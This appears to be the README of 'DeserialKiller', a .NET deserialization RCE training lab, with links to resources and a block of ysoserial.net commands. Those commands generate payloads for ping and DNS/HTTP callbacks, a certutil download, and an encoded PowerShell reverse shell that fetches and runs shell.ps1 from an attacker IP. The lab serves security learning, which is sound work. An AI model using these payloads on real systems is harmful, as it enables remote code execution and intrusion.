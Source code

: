 ## DeserialKiller

Azure Function lab for .NET Deserialization RCE demonstration.

Adapted from this blog post which featured an MVC app, made it a one a click deploy

https://sekurity.dev/insecure-deserialization-using-binaryformatter-resulting-in-rce/

Plan to add other routes for other Deserialization labs, but for now, here are the bklog posts I'm going to be reading 

## .Net Deserialization Resources
https://medium.com/r3d-buck3t/insecure-deserialization-with-json-net-c70139af011a
https://knowledge-base.secureflag.com/vulnerabilities/unsafe_deserialization/unsafe_deserialization__net.html
https://book.hacktricks.xyz/pentesting-web/deserialization
https://book.hacktricks.xyz/pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net
https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter
https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-knowing-the-secret

## .Net Deserialziation White-Paper - JSON.net
https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf

## Initial Access payload generation and WDAC Bypass using .net Deserialization
https://labs.nettitude.com/blog/introducing-aladdin/
https://github.com/nettitude/Aladdin

## Ysoserial.Net
https://github.com/pwntester/ysoserial.net

```powershell
#Send ping
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "ping -n 5 10.10.14.44" -o base64

#Timing
#I tried using ping and timeout but there wasn't any difference in the response timing from the web server

#DNS/HTTP request
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "nslookup sb7jkgm6onw1ymw0867mzm2r0i68ux.burpcollaborator.net" -o base64
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "certutil -urlcache -split -f http://rfaqfsze4tl7hhkt5jtp53a1fsli97.burpcollaborator.net/a a" -o base64

#Reverse shell
#Create shell command in linux
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.44/shell.ps1')" | iconv  -t UTF-16LE | base64 -w0
#Create exploit using the created B64 shellcode
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQANAAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA=" -o base64
```

## Web Lab - Portswigger Deserializtion
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization